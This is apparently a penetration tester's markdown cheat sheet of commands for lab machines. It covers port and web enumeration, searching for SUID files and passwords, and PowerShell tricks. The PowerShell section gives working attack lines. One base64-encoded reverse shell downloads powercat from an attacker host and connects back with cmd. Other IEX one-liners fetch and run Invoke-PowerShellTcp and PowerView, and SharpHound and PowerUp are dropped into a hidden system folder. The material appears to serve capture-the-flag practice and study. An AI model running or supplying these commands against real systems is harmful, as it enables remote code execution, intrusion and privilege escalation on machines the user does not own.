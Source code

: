 # Commands

## vi

```sh
cat /etc/vim/vimrc.local 
set paste
set cursorline
set number
```

## Enumeration 

```sh
sudo masscan -p1-65535 10.10.10.77 --rate=1000 -e tun0 > ports
ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')
sudo nmap -Pn -sV -sC -p$ports 10.10.10.77 -oA nmap
```

## Web

```sh
curl -v -X OPTIONS http://192.168.1.105/test

gobuster dir -w /usr/share/wordlists/dirb/common.txt -l -t 30 -e -k -x .html,.php -u http://192.168.1.159:80 -o gob_common_80.txt
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -l -t 30 -e -k -x .html,.php -u http://192.168.1.159:80 -o go_medium_80.txt

nikto -host 192.168.1.159:8080 | tee nikto_192.168.1.159_8080.txt
```

## Find

```sh
find / -perm -4000 2> /dev/null
grep -iR "pass" * | more
```

## Powershell

### Encoded commands

```sh
$command="ls"
$Encoded = [convert]::ToBase64String([System.Text.encoding]::Unicode.GetBytes($command))
powershell.exe -encoded $Encoded
```
Reverse Shell

```sh
$command={IEX(New-Object System.Net.WebClient).DownloadString('http://10.13.14.3:9000/powercat.ps1'); powercat -c 10.13.14.3 -p 1234 -e cmd}
$Encoded = [convert]::ToBase64String([System.Text.encoding]::Unicode.GetBytes($command))

$command = 'IEX (New-Object Net.WebClient).DownloadString("http://10.13.14.3:9000/Invoke-PowerShellTcpRun.ps1")'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
```

Port Scanning

```sh
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("localhost", $_)) "Port $_ is open!")) 2>$null
```

Downloading

```sh
$url="http://10.10.14.13:9000/SharpHound.exe"
$output="C:\Windows\System32\spool\drivers\color\SharpHound.exe"
(New-object system.net.webclient).downloadfile($url,$output)

(New-Object System.Net.WebClient).DownloadFile("http://10.10.14.13:9000/PowerUp.ps1", "C:\Windows\System32\spool\drivers\color\PowerUp.ps1")
```

Reflective Downloading

```sh
IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.7:9000/PowerView.ps1')
```

Size of Folder

```sh
"{0} MB" -f ((Get-ChildItem C:\users\ -Recurse -force | Measure-Object -Property Length -Sum -ErrorAction Stop).Sum / 1MB)
```

Compress

```sh
Compress-Archive -LiteralPath <PathToFolder> -DestinationPath <PathToDestination>
```
Find Files

```sh
gci -force -recurse -file -ea silentlycontinue  

Get-ChildItem -Path C:\ -Include *.doc,*.docx -File -Recurse -force -ErrorAction SilentlyContinue

FindDate=Get-Date -Year 2016 -Month 06 -Day 24
Get-ChildItem -Path C:\ -Include *.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue | Where-Object { $_.LastWriteTime -ge $FindDate }
Get-ChildItem -Path C:\ -Include *.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue | Where-Object { $_.LastWriteTime -ge $FindDate -and $_.LastWriteTime -le $Finddate.adddays(1) }
```

## Useful links

<https://github.com/swisskyrepo/PayloadsAllTheThings>

<https://book.hacktricks.xyz/>

<https://gtfobins.github.io/>

<https://github.com/LOLBAS-Project/LOLBAS/blob/master/README.md>

<https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf>

